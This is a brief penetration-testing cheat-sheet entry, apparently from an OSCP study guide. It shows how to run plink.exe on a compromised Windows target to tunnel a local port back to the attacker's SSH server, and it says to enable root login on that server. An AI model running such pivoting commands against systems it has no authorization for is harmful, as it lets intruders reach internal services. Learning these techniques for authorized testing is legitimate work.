 
**[Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)**

We are using plink to forward a port to our host over an SSH connection. When this completes we will be ssh'd into our machine with a local (127.0.0.1) connection to whatever port we forwarded. 

SSH on your machine with "permitrootlogin yes".

    systemctl restart ssh

On target:

    plink.exe -l <your user> -pw <your pass> <local port you want access to>:127.0.0.1:<port to send to your PC> <your IP>




 [ff](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)










